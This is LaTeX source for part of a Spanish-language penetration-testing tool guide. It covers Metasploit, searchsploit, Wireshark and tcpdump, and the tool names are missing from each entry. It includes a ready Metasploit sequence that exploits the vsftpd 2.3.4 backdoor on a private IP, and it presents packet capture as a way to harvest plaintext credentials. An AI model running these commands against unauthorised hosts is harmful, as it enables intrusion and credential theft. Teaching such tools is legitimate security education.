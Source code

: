 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{herramienta}
\begin{itemize}[leftmargin=*]
  \item \textbf{Función:} Plataforma de desarrollo y ejecución de exploits contra máquinas remotas. Incluye miles de exploits, payloads y módulos auxiliares.
  \item \textbf{Ejemplo de flujo:}
  \begin{lstlisting}[language=bash]
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.10
exploit
  \end{lstlisting}
\end{itemize}
\end{herramienta}

\begin{herramienta}
\begin{itemize}[leftmargin=*]
  \item \textbf{Función:} Busca exploits públicos de Exploit-DB directamente desde la terminal.
  \item \textbf{Ejemplo:}
  \begin{lstlisting}[language=bash]
searchsploit apache 2.4
  \end{lstlisting}
\end{itemize}
\end{herramienta}

\subsection{Fase 4: Análisis de Tráfico (Sniffing)}
\textbf{Objetivo:} Capturar y analizar el tráfico de red para identificar credenciales, protocolos inseguros o anomalías.

\begin{herramienta}
\begin{itemize}[leftmargin=*]
  \item \textbf{Función:} Captura y visualiza paquetes de red en tiempo real. Esencial para entender qué viaja por la red y detectar credenciales en texto plano.
  \item \textbf{Uso:} Se ejecuta desde entorno gráfico o con \texttt{tshark} en terminal.
\end{itemize}
\end{herramienta}

\begin{herramienta}
\begin{itemize}[leftmargin=*]
  \item \textbf{Función:} Captura paquetes sin interfaz gráfica. Ideal para servidores.
  \item \textbf{Ejemplo:}
  \begin{lstlisting}[language=bash]
tcpdump -i eth0 port 80 -w captura.pcap
  \end{lstlisting}
\end{itemize}
\end{herramienta}
\end{document}
